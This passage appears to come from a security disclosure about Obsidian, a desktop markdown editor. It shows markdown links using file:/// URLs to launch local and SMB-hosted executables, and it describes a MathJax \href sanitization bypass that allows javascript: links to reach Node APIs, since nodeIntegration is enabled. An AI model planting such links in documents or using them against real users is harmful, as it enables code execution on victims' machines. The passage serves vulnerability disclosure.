 This allows the execution of local files and remote binaries hosted on a SMB server when a malicious link is clicked.
Especially on Windows this is very dangerous.


Example for a Windows machine:

```md
[local binary](file:///c:/windows/system32/calc.exe)

[external binary](file:///\\\\live.sysinternals.com\\tools\\Procmon.exe)
```



## URL Sanitization Bypass with MathJax to RCE

Obsidian supports MathJax syntax.
MathJax contains a function `\href{url}{math}` to create links (see: http://docs.mathjax.org/en/latest/input/tex/extensions/html.html).
In contrast to other possibilities in Obsidian which allow the creation of links, URLs created through this method are *not sanitized*.
This allows the creation of URLs with the `javascript:`-protocol.
Since those links are rendered in the main window context of Obsidian access to all exposed features and functions is possible.

The main window of the desktop application has the following settings:
```
allowRunningInsecureContent: false
backgroundColor: "#00000000"
contextIsolation: false
disableHtmlFullscreenWindowResize: false
enablePreferredSizeMode: false
enableRemoteModule: true
enableWebSQL: true
experimentalFeatures: false
images: true
javascript: true
nativeWindowOpen: false
nodeIntegration: true
nodeIntegrationInSubFrames: false
nodeIntegrationInWorker: false
offscreen: false
plugins: false
sandbox: false
spellcheck: true
textAreasAreResizable: true
webSecurity: true
webgl: true
webviewTag: false
worldSafeExecuteJavaScript: true
```

As we can see `nodeIntegration` is enabled.
Furthermore several Node API modules are exposed via preload script.
This means we have direct access to many dangerous functions and can easily achieve code execution when someone clicks a link.
